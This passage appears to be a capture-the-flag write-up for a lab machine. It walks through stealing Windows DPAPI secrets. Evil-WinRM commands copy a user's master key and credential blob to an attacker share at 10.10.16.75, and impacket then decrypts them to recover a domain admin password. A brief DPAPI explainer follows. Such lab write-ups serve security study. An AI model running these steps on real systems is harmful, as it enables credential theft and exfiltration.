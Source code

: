 
Copy 2 file, one is the master key And the other is where other passwords is stored.
```powershell
*Evil-WinRM* PS C:\> copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" \\10.10.16.75\share\masterkey_blob
*Evil-WinRM* PS C:\> copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" \\10.10.16.75\share\credential_blob
```

```sh
> impacket.dpapi masterkey -file masterkey_blob -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

```sh
> impacket.dpapi credential -file credential_blob -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
Unknown     : 
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!

```


## Windows DPAPI workflow

### 1. Protected Secrets
- Apps (like Chrome, RDP, Wi-Fi, Outlook, etc.) don’t store plaintext passwords.
- Instead, they use **DPAPI** (`CryptProtectData` API) to encrypt them.
- The output is stored in `AppData\Roaming\Microsoft\Credentials\` as **credential blobs**, or in browser profiles, etc.
### 2. Master Keys
- DPAPI doesn’t encrypt directly with the user’s password.
- Each user has one or more **master keys** stored in:
```powershell
C:\Users\<user>\AppData\Roaming\Microsoft\Protect\<SID>\
```
- Each master key file is encrypted using a key derived from the user’s Windows **logon password (or domain creds)**.
### 3. Decrypting a Master Key
- To decrypt a master key, you need the **user’s password hash** (NT hash, or the plaintext password).
- Tools like `mimikatz` or `dpapi.py` (from Impacket) can use the NT hash to decrypt it.
- Once decrypted, you get the **DPAPI Master Key (plaintext)**.
### 4. Using the Master Key
- The decrypted master key can then be used to open the **credential blobs**:
```sh
C:\Users\<user>\AppData\Roaming\Microsoft\Credentials\
```
- Each blob maps to a saved secret (Wi-Fi PSK, RDP password, browser login, etc.).